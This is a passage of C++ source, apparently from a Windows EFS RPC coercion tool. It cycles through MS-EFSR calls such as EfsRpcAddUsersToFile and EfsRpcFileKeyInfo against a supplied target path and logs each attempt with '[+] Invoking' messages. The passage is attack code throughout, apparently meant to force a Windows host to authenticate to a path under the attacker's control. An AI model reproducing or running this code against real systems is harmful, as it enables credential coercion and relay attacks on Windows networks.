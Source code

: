 ```c++
            wprintf(L"[+] Invoking EfsRpcQueryRecoveryAgents with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcQueryRecoveryAgents(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [out] ENCRYPTION_CERTIFICATE_HASH_LIST * *RecoveryAgents
             *  );
             */

            ENCRYPTION_CERTIFICATE_HASH_LIST* RecoveryAgents;
            result = EfsRpcQueryRecoveryAgents(hBinding, PipeFileName, &RecoveryAgents);
        }
        if (efsId == 5)    // error
        {
            wprintf(L"[+] Invoking EfsRpcRemoveUsersFromFile with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcRemoveUsersFromFile(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [in] ENCRYPTION_CERTIFICATE_HASH_LIST* Users
             *  );
             */

            ENCRYPTION_CERTIFICATE_HASH_LIST Users;
            result = EfsRpcRemoveUsersFromFile(hBinding, PipeFileName, &Users);
        }
        if (efsId == 6)
        {
            wprintf(L"[+] Invoking EfsRpcAddUsersToFile with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcAddUsersToFile(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [in] ENCRYPTION_CERTIFICATE_LIST * EncryptionCertificates
             *  );
             */

            ENCRYPTION_CERTIFICATE_LIST EncryptionCertificates;
            result = EfsRpcAddUsersToFile(hBinding, PipeFileName, &EncryptionCertificates);
        }
        if (efsId == 7)
        {
            wprintf(L"[+] Invoking EfsRpcFileKeyInfo with target path: %ws.\r\n", PipeFileName);

            /*
             *  DWORD EfsRpcFileKeyInfo(
             *      [in] handle_t hBinding,
             *      [in, string] wchar_t* FileName,
             *      [in] DWORD InfoClass,
             *      [out] EFS_RPC_BLOB** KeyInfo
             *  );
             */

            EFS_RPC_BLOB* KeyInfo;
            result = EfsRpcFileKeyInfo(hBinding, PipeFileName, 0, &KeyInfo);

        }
        if (efsId == 8)    // error
```